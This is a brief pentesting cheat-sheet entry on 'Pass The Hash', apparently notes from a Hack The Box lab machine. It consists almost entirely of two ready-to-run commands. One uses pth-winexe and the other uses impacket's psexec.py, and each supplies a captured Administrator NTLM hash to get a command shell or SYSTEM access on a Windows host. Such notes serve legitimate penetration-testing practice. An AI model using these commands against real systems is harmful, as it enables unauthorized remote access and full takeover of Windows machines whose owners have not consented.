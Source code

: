# Pass The Hash

## get a shell with a Hash on windows system
```cheat passthehash Get a shell using hash
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7 //10.10.10.x cmd
```

```cheat passthehash --> nt authority\system
python psexec.py Administrator@10.10.10.63 -hashes "aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00"

tags: passthehash pass the hash pth-winexe ippsec silo
